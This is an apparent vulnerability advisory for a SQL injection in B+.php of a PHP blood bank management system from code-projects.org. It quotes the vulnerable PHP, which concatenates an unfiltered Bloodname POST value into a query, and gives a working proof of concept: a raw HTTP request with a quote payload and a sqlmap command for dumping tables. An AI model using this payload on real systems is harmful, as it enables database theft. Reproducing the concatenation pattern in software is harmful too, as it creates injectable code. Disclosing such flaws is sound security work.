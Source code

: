 # blood-bank-system-in-php-sql_injection

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

B+.php  

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

## PROBLEM TYPE

network remote.

## Vulnerability Type

sql injection

## Root Cause

B+.php file, SQL injection is used to obtain database information.

## Impact

## **Description of the vulnerability**

### B+.php

source code，the    bloodname parameter is not filtered and concatenated into the SQL statement.                                                                                                                                                                                                                                                                                                                                                                                                                                                               

```
$Bloodname=$_POST['Bloodname'];
$availability=$_POST['Availibility'];
$unit=$_POST['unit'];
$s = "select * from b where Bloodname= '$Bloodname'";
$result = mysqli_query($con, $s);
$num = mysqli_fetch_row($result);
```

![image-20240923201359715](https://github.com/user-attachments/assets/54e03765-2ae4-48d1-a058-4ecb6b790bbf)

   



## **Vulnerability recurrence**

### **POC**

```
POST /admin/blood/update/B+.php HTTP/1.1
Host: bloodbankmgmtsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://bloodbankmgmtsystem
Connection: close
Referer: http://bloodbankmgmtsystem/admin/blood/update/B+.php
Cookie: PHPSESSID=bv5nqil12pgkdbgs2s0i6sh3j1
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Bloodname=1%27
```

save as sql.txt

```
python sqlmap.py -r "D:\sql.txt"    --tables
```

![image-20240923201240396](https://github.com/user-attachments/assets/bcea9b77-f448-4aa2-8a5c-805b9932e6af)

